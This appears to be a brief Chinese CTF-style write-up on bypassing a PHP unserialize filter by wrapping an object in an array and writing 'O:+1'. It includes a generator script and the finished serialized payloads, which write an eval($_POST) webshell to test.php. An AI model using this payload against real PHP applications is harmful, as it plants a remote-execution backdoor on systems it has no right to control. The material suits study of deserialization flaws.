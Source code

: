 有过过滤，不让对象序列化数据类型进行反序列化
```
if(substr($data,0,2) !== 'O:' && !preg_match('/O:\d:\/'，$data））{
    return unserialize($data);
}
```
substr($data,0,2) !== 'O:' 不让对象类型，则使用数组类型。
不让用O:d，则O:+d绕过。
```
<?php
class T{
       public $c="./test.php";
       public $t='<?php eval($_POST[x]);?>';
}

$a = new T();
$b = Array($a);
print(serialize($b));
```
```
a:1:{i:0;O:1:"T":2:{s:1:"c";s:10:"./test.php";s:1:"t";s:24:"<?php eval($_POST[x]);?>";}}

a:1:{i:0;O:+1:"T":2:{s:1:"c";s:10:"./test.php";s:1:"t";s:24:"<?php eval($_POST[x]);?>";}}
```